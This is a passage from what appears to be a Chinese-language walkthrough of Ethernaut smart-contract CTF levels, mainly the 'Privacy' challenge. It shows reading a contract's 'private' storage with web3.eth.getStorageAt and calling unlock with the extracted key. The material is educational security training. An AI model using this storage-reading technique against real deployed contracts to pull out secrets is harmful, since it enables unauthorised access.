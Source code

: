 这样在部署之后调用 exp 函数就可以让 top 为 true

---

## Privacy

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Privacy {

        bool public locked = true;
        uint256 public ID = block.timestamp;
        uint8 private flattening = 10;
        uint8 private denomination = 255;
        uint16 private awkwardness = uint16(now);
        bytes32[3] private data;

        constructor(bytes32[3] memory _data) public {
            data = _data;
        }
        
        function unlock(bytes16 _key) public {
            require(_key == bytes16(data[2]));
            locked = false;
        }
    }
    ```

和 Vault 那题很相似，都是要读取 private 内容，然后调用 unlock

同样来用 `#!js web3.eth.getStorageAt` 来 dump 出 storage：
```js
> await web3.eth.getStorageAt(instance, 0)
'0x0000000000000000000000000000000000000000000000000000000000000001'
> await web3.eth.getStorageAt(instance, 1)
'0x00000000000000000000000000000000000000000000000000000000623b0e73'
> await web3.eth.getStorageAt(instance, 2)
'0x000000000000000000000000000000000000000000000000000000000e73ff0a'
> await web3.eth.getStorageAt(instance, 3)
'0x3c991a198af652eb94710764c3f0401f1120427381fa7c46eeb6231cde2c9569'
> await web3.eth.getStorageAt(instance, 4)
'0xa792357f9443825334e26c299815fc6253b294b4a9155f49ea735bd2631dc364'
> await web3.eth.getStorageAt(instance, 5)
'0x6710884543189de73f0dfb9d36a99f2a5e9c3c7e5eb1fd1dead5f49ee955cdcf'
> await web3.eth.getStorageAt(instance, 6)
'0x0000000000000000000000000000000000000000000000000000000000000000'
```

不难看出 0 处存储的是 bool locked，1 处是一个 256 位 ID，2 处是剩下的两个 uint8、一个 uint16 拼出来的，而 3～5 就是 data 了

所以 data[2] 也就是 `0x6710884543189de73f0dfb9d36a99f2a5e9c3c7e5eb1fd1dead5f49ee955cdcf`

而 unlock 需要 bytes16，而且在内部将 data[2] 强制转换为了 bytes16，这会取前 16 字节，所以最后调用 unlock:
```js
contract.unlock("0x6710884543189de73f0dfb9d36a99f2a")
```

---